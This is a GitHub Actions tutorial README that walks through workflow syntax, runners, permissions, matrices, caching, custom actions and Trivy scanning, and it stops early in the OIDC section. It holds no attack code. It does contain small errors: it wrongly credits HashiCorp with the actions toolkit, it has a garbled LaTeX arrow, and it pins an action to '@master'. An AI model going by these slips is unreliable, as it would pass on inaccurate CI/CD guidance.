# Exhaustive Production-Grade GitHub Actions Masterclass: From Beginner to Staff DevOps & CI/CD Platform Architect

[](https://github.com/manthanank/learn-github-actions/actions)
[](https://opensource.org/licenses/MIT)
[](https://github.com/features/actions)
[](CONTRIBUTING.md)

Welcome to the definitive, production-grade guide to **GitHub Actions and Modern CI/CD Platform Engineering**. This curriculum is built for software engineers, DevOps specialists, platform architects, and site reliability engineers (SREs). It spans from foundational workflow YAML syntax and matrix builds to custom TypeScript/Docker actions, ephemeral Kubernetes Actions Runner Controller (ARC) deployments, OIDC cloud federation (zero long-lived credentials), and SLSA Level 3 supply chain security compliance.

---

## Table of Contents
1. [Stage 1: Core CI/CD Architecture & Execution Runtimes](#1-stage-1-core-cicd-architecture--execution-runtimes)
   - 1.1 Anatomy of a Workflow: Events, Workflows, Jobs, Steps, and Actions
   - 1.2 GitHub-Hosted vs Self-Hosted Runners: Architecture & Threat Model
   - 1.3 The Runner Execution Lifecycle: From Webhook to Cleanup
   - 1.4 The Principle of Least Privilege: The `permissions:` Block
2. [Stage 2: YAML Syntax, Contexts & Expressions Mastery](#2-stage-2-yaml-syntax-contexts--expressions-mastery)
   - 2.1 Trigger Events: Push, PR, Schedule, Webhooks, and `workflow_dispatch`
   - 2.2 Context Objects: `github`, `env`, `job`, `steps`, `runner`, and `secrets`
   - 2.3 Expressions, Status Check Functions, and Ternary Logic
   - 2.4 Environmental Variables: Precedence, Scoping, and `$GITHUB_ENV`
3. [Stage 3: Advanced Pipeline Orchestration, Matrix Builds & Caching](#3-stage-3-advanced-pipeline-orchestration-matrix-builds--caching)
   - 3.1 Directed Dependency Graphs with `needs:` and Parallelism
   - 3.2 Dynamic and Multi-Dimensional Matrix Strategies
   - 3.3 High-Performance Caching with `actions/cache` v4
   - 3.4 Concurrency Groups and Cancel-in-Progress Optimization
4. [Stage 4: Custom Actions & Reusable Enterprise Components](#4-stage-4-custom-actions--reusable-enterprise-components)
   - 4.1 Composite Run Steps Actions: Architecture & Implementation
   - 4.2 Docker Container Actions: Isolated Polyglot Runtimes
   - 4.3 Custom JavaScript/TypeScript Actions with `@actions/core`
   - 4.4 Reusable Workflows (`workflow_call`) vs Starter Workflows
5. [Stage 5: Enterprise Security, Secrets & Cloud OIDC Federation](#5-stage-5-enterprise-security-secrets--cloud-oidc-federation)
   - 5.1 OpenID Connect (OIDC): Keyless Cloud Authentication to AWS/GCP/Azure
   - 5.2 GitHub Environments, Required Reviewers & Deployment Branches
   - 5.3 Supply Chain Hardening: Pinning by SHA, Dependabot, and StepSecurity
   - 5.4 Secret Masking, Log Sanitation, and Preventing Expression Injection
6. [Stage 6: Ephemeral Self-Hosted Runners & Scalable Infrastructure](#6-stage-6-ephemeral-self-hosted-runners--scalable-infrastructure)
   - 6.1 Actions Runner Controller (ARC) on Kubernetes
   - 6.2 Ephemeral Runner Autoscaling with AutoscalingRunnerSet
   - 6.3 Hardened VPC Networking, Private Subnets, and NAT Gateways
   - 6.4 Build Artifact Management and Retention Policies
7. [Stage 7: Staff DevOps & CI/CD Platform Architect Interview Handbook](#7-stage-7-staff-devops--cicd-platform-architect-interview-handbook)
   - 7.1 High-Stakes Production War Stories & Post-Mortems
   - 7.2 25 Exhaustive Technical Interview Questions & Answers
8. [Community, Contributing & Support](#8-community-contributing--support)

---

## 1. Stage 1: Core CI/CD Architecture & Execution Runtimes

### 1.1 Anatomy of a Workflow: Events, Workflows, Jobs, Steps, and Actions
GitHub Actions executes automation through an event-driven hierarchy. Every component serves a specific level of abstraction:


| Component | Scope | Execution Target | Lifecycle / State |
| :--- | :--- | :--- | :--- |
| **Event** | Webhook trigger | GitHub Platform | Instantiates workflow execution run |
| **Workflow** | Orchestrator file | Root repository | Configured in `.github/workflows/*.yml` |
| **Job** | Compute boundary | Single Runner (VM/Container) | Runs concurrently by default unless serialized via `needs:` |
| **Step** | Sequential task | Inside Runner's Workspace | Runs sequentially; shares local filesystem within a job |
| **Action** | Reusable module | Step internal invocation | Packaged composite, Docker, or JavaScript code |

### 1.2 GitHub-Hosted vs Self-Hosted Runners: Architecture & Threat Model
Choosing the proper execution environment is critical for balancing operational overhead, cost, and security:



| Security & Ops Dimension | GitHub-Hosted Runners | Self-Hosted Runners |
| :--- | :--- | :--- |
| **Isolation** | Single-use ephemeral VM (Hyper-V/KVM) | Shared VM (risk of persistence) or K8s Pod |
| **VPC Connectivity** | None (requires public IP, VPN, or OIDC) | Native access to private DBs, registries & subnets |
| **Maintenance** | Zero maintenance (GitHub patches OS) | High (OS patching, tool updates, daemon monitoring) |
| **Cost Model** | Per-minute billing (free tier for public repos) | Flat infrastructure cost (EC2 instance / K8s node) |
| **Public Repo Safety** | Completely safe | **Severe Risk**: Fork PRs can execute malicious code |

### 1.3 The Runner Execution Lifecycle: From Webhook to Cleanup
When an event occurs in a repository, the GitHub Actions orchestrator schedules work across distributed worker nodes:



### 1.4 The Principle of Least Privilege: The `permissions:` Block
By default, GitHub provides an automated `GITHUB_TOKEN` secret to every job. Historically, this token possessed broad read/write access. Modern security standards demand explicit token permission scoping at the workflow or job level:

```yaml
name: Production Security Gated Pipeline

# Block all permissions globally by default
permissions: {}

jobs:
  build-and-test:
    runs-on: ubuntu-latest
    permissions:
      contents: read     # Required to checkout code
      pull-requests: write # Required to post PR review comments
      id-token: write    # Required for OIDC JWT cloud authentication
    steps:
      - name: Checkout Source Code
        uses: actions/checkout@v4
```

| Permission Key | Description | Minimum Safe Scope |
| :--- | :--- | :--- |
| `contents` | Git repository files, commits, tags, releases | `read` (write only for semantic releases) |
| `id-token` | OpenID Connect (OIDC) JWT token generation | `write` (for AWS/GCP role assumption) |
| `pull-requests` | PR comments, labels, reviewers | `write` (for bot feedback) |
| `security-events` | CodeQL, SARIF vulnerability upload | `write` (for Trivy/Checkov report upload) |
| `packages` | GitHub Packages container registry | `write` (for publishing Docker images) |

---

## 2. Stage 2: YAML Syntax, Contexts & Expressions Mastery

### 2.1 Trigger Events: Push, PR, Schedule, Webhooks, and `workflow_dispatch`
GitHub Actions supports sophisticated event triggering and path filtering:

```yaml
name: Enterprise Orchestrated Trigger

on:
  push:
    branches:
      - main
      - 'releases/**'
    paths-ignore:
      - 'docs/**'
      - '*.md'
    tags:
      - 'v*.*.*'
  pull_request:
    types: [opened, synchronize, reopened]
    branches: [main]
  schedule:
    - cron: '0 2 * * 1-5' # Weekdays at 02:00 UTC
  workflow_dispatch:
    inputs:
      deployment_tier:
        description: 'Target Deployment Tier'
        required: true
        type: choice
        options: [canary, staging, production]
      run_load_tests:
        description: 'Execute Gatling stress testing suite'
        required: false
        type: boolean
        default: false
```

| Field / Parameter | Purpose | Architectural Best Practice |
| :--- | :--- | :--- |
| `paths-ignore` | Prevents pipeline execution on documentation updates | Reduces CI runner compute consumption |
| `schedule.cron` | Standard 5-field cron syntax | Use for nightlies, vulnerability scanning & drift audit |
| `workflow_dispatch` | Enables manual invocation from GitHub UI or API | Mandatory for gated manual releases and rollbacks |
| `types` | Filters specific lifecycle actions within an event | Avoid running expensive tests on PR labeled events |

### 2.2 Context Objects: `github`, `env`, `job`, `steps`, `runner`, and `secrets`
Contexts are JSON-like objects containing workflow state information:



#### Utilizing Contexts in Steps
```yaml
steps:
  - name: Inspect Execution Context
    run: |
      echo "Triggered by actor: ${{ github.actor }}"
      echo "Commit SHA: ${{ github.sha }}"
      echo "Current Branch / Ref: ${{ github.ref_name }}"
      echo "Runner Architecture: ${{ runner.arch }} (${{ runner.os }})"
```

### 2.3 Expressions, Status Check Functions, and Ternary Logic
Expressions let you evaluate programmatic conditions inside YAML step `if:` statements:

```yaml
jobs:
  deploy:
    runs-on: ubuntu-latest
    steps:
      - name: Checkout
        uses: actions/checkout@v4

      - name: Run Primary Tests
        id: test_run
        run: npm test

      - name: Notify Slack on Failure
        if: failure() && github.ref == 'refs/heads/main'
        run: ./scripts/send-slack-alert.sh

      - name: Teardown Sandbox Resources
        if: always()
        run: docker compose down -v
```

| Status Function | Evaluation Criteria |
| :--- | :--- |
| `success()` | Evaluates to `true` if all previous steps succeeded (default behavior) |
| `failure()` | Evaluates to `true` if any previous step or job failed |
| `always()` | Always evaluates to `true`, even if cancelled or failed (ideal for resource cleanup) |
| `cancelled()` | Evaluates to `true` only if the workflow execution was explicitly cancelled by an engineer |

### 2.4 Environmental Variables: Precedence, Scoping, and `$GITHUB_ENV`
Managing variables and outputs between steps requires writing to GitHub-provided file descriptors:

```yaml
steps:
  - name: Generate Dynamic Version and Export Variable
    run: |
      CALC_VER="v$(date +'%Y.%m.%d').${{ github.run_number }}"
      echo "RELEASE_VERSION=$CALC_VER" >> "$GITHUB_ENV"
      echo "artifact_name=build-$CALC_VER" >> "$GITHUB_OUTPUT"
    id: versioning

  - name: Consume Environment Variable in Downstream Step
    run: |
      echo "Release version is: $RELEASE_VERSION"
      echo "Step output is: ${{ steps.versioning.outputs.artifact_name }}"
```

---


### 2.5 Detailed Event Activity Types Reference Matrix
Many GitHub events support specific fine-grained activity types that prevent unnecessary workflow runs:

| GitHub Event | Key Activity Types | When to Trigger in CI/CD |
| :--- | :--- | :--- |
| `pull_request` | `opened`, `synchronize`, `reopened`, `ready_for_review` | Core testing, linting, and build verification |
| `pull_request_review` | `submitted`, `edited`, `dismissed` | Enforcing automated merge upon approval |
| `release` | `published`, `created`, `prereleased` | Triggering production container publish to GHCR/DockerHub |
| `issues` | `opened`, `labeled`, `milestoned` | Automated bot triage, notification, and SLA escalation |
| `workflow_run` | `completed`, `requested` | Fan-out notification pipelines or CodeQL SARIF ingestion |
| `repository_dispatch`| Custom string webhook event | Cross-repository triggers from external microservices |



## 3. Stage 3: Advanced Pipeline Orchestration, Matrix Builds & Caching

### 3.1 Directed Dependency Graphs with `needs:` and Parallelism
By default, jobs inside a workflow execute concurrently. The `needs:` keyword defines explicit dependencies, forming a Directed Acyclic Graph (DAG):



```yaml
jobs:
  lint:
    runs-on: ubuntu-latest
    steps: [{ uses: actions/checkout@v4 }, { run: npm run lint }]

  unit-test:
    runs-on: ubuntu-latest
    steps: [{ uses: actions/checkout@v4 }, { run: npm test }]

  build:
    needs: [lint, unit-test]
    runs-on: ubuntu-latest
    steps: [{ uses: actions/checkout@v4 }, { run: npm run build }]

  deploy:
    needs: build
    runs-on: ubuntu-latest
    steps: [{ run: ./deploy.sh }]
```

### 3.2 Dynamic and Multi-Dimensional Matrix Strategies
The `strategy.matrix` engine generates multiple parallel job executions from combinations of configurations:



```yaml
jobs:
  cross-platform-test:
    runs-on: ${{ matrix.os }}
    strategy:
      fail-fast: false
      max-parallel: 4
      matrix:
        os: [ubuntu-latest, windows-latest, macos-latest]
        node-version: [18.x, 20.x, 22.x]
        include:
          - os: ubuntu-latest
            node-version: 22.x
            experimental: true
        exclude:
          - os: windows-latest
            node-version: 18.x

    steps:
      - uses: actions/checkout@v4
      - name: Setup Node ${{ matrix.node-version }}
        uses: actions/setup-node@v4
        with:
          node-version: ${{ matrix.node-version }}
      - run: npm test
```

| Matrix Property | Purpose |
| :--- | :--- |
| `fail-fast: false` | Prevents GitHub from cancelling remaining matrix runs if one permutation fails |
| `max-parallel` | Restricts simultaneous active runner instances to avoid throttling third-party APIs |
| `include` | Appends custom attributes or new permutations to the matrix |
| `exclude` | Removes unsupported or problematic combinations from the execution space |

### 3.3 High-Performance Caching with `actions/cache` v4
Re-downloading package dependencies (e.g., `node_modules`, Maven `.m2`, Go modules) degrades build times. `actions/cache` stores and restores dependencies across pipeline runs:



```yaml
steps:
  - uses: actions/checkout@v4

  - name: Cache Node Modules
    id: npm-cache
    uses: actions/cache@v4
    with:
      path: ~/.npm
      key: ${{ runner.os }}-node-${{ hashFiles('**/package-lock.json') }}
      restore-keys: |
        ${{ runner.os }}-node-

  - name: Install Dependencies
    run: npm ci --prefer-offline
```

### 3.4 Concurrency Groups and Cancel-in-Progress Optimization
When rapid commits are pushed to a feature branch, running pipelines for obsolete intermediate commits wastes runner minutes. Concurrency groups cancel redundant running workflows automatically:

```yaml
concurrency:
  group: ${{ github.workflow }}-${{ github.ref }}
  cancel-in-progress: true
```

| Configuration Key | Operational Effect |
| :--- | :--- |
| `group` | Unique identifier string grouping builds (e.g., `ci-refs/pull/42/merge`) |
| `cancel-in-progress: true` | Halts any currently executing job in the same group when a newer run starts |

---

## 4. Stage 4: Custom Actions & Reusable Enterprise Components

### 4.1 Composite Run Steps Actions: Architecture & Implementation
Composite actions allow teams to bundle multiple shell commands and action steps into a single reusable unit stored in your repository or a shared organization registry.

#### Directory Structure
```text
.github/actions/setup-environment/
├── action.yml
└── README.md
```

#### `action.yml` Specification
```yaml
name: 'Enterprise Node & Cache Setup'
description: 'Standardizes Node runtime initialization, linting, and dependency caching'
inputs:
  node-version:
    description: 'Node.js runtime version to initialize'
    required: false
    default: '20.x'
outputs:
  cache-hit:
    description: 'Whether dependencies were restored from cache'
    value: ${{ steps.cache.outputs.cache-hit }}

runs:
  using: 'composite'
  steps:
    - name: Setup Node
      uses: actions/setup-node@v4
      with:
        node-version: ${{ inputs.node-version }}

    - name: Cache Dependencies
      id: cache
      uses: actions/cache@v4
      with:
        path: ~/.npm
        key: ${{ runner.os }}-npm-${{ hashFiles('**/package-lock.json') }}

    - name: Install Dependencies
      shell: bash
      run: npm ci
```

| Directive | Purpose |
| :--- | :--- |
| `using: 'composite'` | Informs GitHub Actions to execute the steps sequentially using runner shell interpreters |
| `shell: bash` | Mandatory on every run step inside a composite action (cannot inherit runner default) |
| `inputs` / `outputs` | Declares parameter schema and exported variables for callers |

### 4.2 Docker Container Actions: Isolated Polyglot Runtimes
Docker container actions run inside a bespoke Linux container image, ideal when dependencies cannot be installed on standard virtual environments:



```yaml
# action.yml for Docker Action
name: 'Deep Security Audit'
description: 'Runs proprietary security compliance checks'
runs:
  using: 'docker'
  image: 'Dockerfile'
  args:
    - ${{ inputs.severity_threshold }}
```

### 4.3 Custom JavaScript/TypeScript Actions with `@actions/core`
For sophisticated logic requiring API calls, file parsing, or complex branching, build custom Node.js actions using HashiCorp / GitHub Toolkit:

```typescript
// src/main.ts
import * as core from '@actions/core';
import * as github from '@actions/github';

async function run(): Promise<void> {
  try {
    const token = core.getInput('github-token', { required: true });
    const prNumber = github.context.payload.pull_request?.number;

    if (!prNumber) {
      core.info('Not running in a Pull Request context. Skipping.');
      return;
    }

    const octokit = github.getOctokit(token);
    await octokit.rest.issues.createComment({
      ...github.context.repo,
      issue_number: prNumber,
      body: '🚀 Automated Quality Gate Passed! Performance benchmark within 2% margin.'
    });

    core.setOutput('passed', 'true');
  } catch (error) {
    if (error instanceof Error) core.setFailed(error.message);
  }
}

run();
```

### 4.4 Reusable Workflows (`workflow_call`) vs Starter Workflows
Reusable workflows provide centralized governance, allowing platform teams to define golden pipelines that application teams consume:



```yaml
# Caller Workflow (app-repo/.github/workflows/ci.yml)
jobs:
  call-golden-pipeline:
    uses: acme-corp/central-workflows/.github/workflows/golden-build.yml@v1.4.0
    with:
      environment: 'production'
    secrets: inherit
```

---


### 4.5 Orchestrating GitHub APIs with `actions/github-script` (Octokit Automation)
`actions/github-script` enables executing arbitrary JavaScript using an authenticated Octokit client directly in your workflow steps without compiling standalone custom actions.



#### Production Example: Auto-Triaging Pull Requests & Assigning Reviewers
```yaml
- name: Auto-Triage Pull Request
  uses: actions/github-script@v7
  with:
    github-token: ${{ secrets.GITHUB_TOKEN }}
    script: |
      const { data: pr } = await github.rest.pulls.get({
        owner: context.repo.owner,
        repo: context.repo.repo,
        pull_number: context.payload.pull_request.number
      });

      const changedFiles = pr.changed_files;
      const labels = ['automated-triage'];

      if (changedFiles > 50) {
        labels.push('size/large');
      } else if (changedFiles > 10) {
        labels.push('size/medium');
      } else {
        labels.push('size/small');
      }

      await github.rest.issues.addLabels({
        owner: context.repo.owner,
        repo: context.repo.repo,
        issue_number: context.payload.pull_request.number,
        labels: labels
      });

      console.log(`Successfully applied labels: ${labels.join(', ')}`);
```

| Object / Variable | Technical Role |
| :--- | :--- |
| `github` | Fully authenticated Octokit REST & GraphQL client instance |
| `context` | Direct reference to the active workflow run context (`repo`, `payload`, `actor`) |
| `core` | Utilities for logging, output setting, and masking secrets (`core.setOutput`, `core.setFailed`) |
| `exec` | Subprocess runner for executing arbitrary terminal shell binaries |

### 4.6 Container Vulnerability Scanning with Trivy & GitHub Security SARIF Upload
Modern DevSecOps mandates scanning container images for Common Vulnerabilities and Exposures (CVEs) and reporting findings directly to GitHub's **Security $	o$ Code Scanning Alerts** dashboard via SARIF.



```yaml
- name: Build Local Container Image
  run: docker build -t production-app:${{ github.sha }} .

- name: Execute Trivy Vulnerability Scan
  uses: aquasecurity/trivy-action@master
  with:
    image-ref: 'production-app:${{ github.sha }}'
    format: 'sarif'
    output: 'trivy-results.sarif'
    severity: 'CRITICAL,HIGH'

- name: Upload Scan Results to GitHub Security
  uses: github/codeql-action/upload-sarif@v3
  if: always()
  with:
    sarif_file: 'trivy-results.sarif'
```

| Configuration Flag | Security Purpose |
| :--- | :--- |
| `format: 'sarif'` | Outputs Static Analysis Results Interchange Format (OASIS standard) |
| `severity: 'CRITICAL,HIGH'` | Filters low-impact warnings to avoid alert fatigue |
| `if: always()` | Ensures vulnerability reports upload even when threshold check fails |

## 5. Stage 5: Enterprise Security, Secrets & Cloud OIDC Federation

### 5.1 OpenID Connect (OIDC): Keyless Cloud Authentication to AWS/GCP/Azure
Storing long-lived cloud credentials (`AWS_ACCESS_KEY_ID` and `AWS_SECRET_ACCESS_KEY`) in GitHub Secrets introduces severe exfiltration vulnerabilities. **OIDC** eliminates long-lived static keys by exchanging a short-lived JSON Web Token (JWT) issued by GitHub for temporary AWS IAM role credentials.

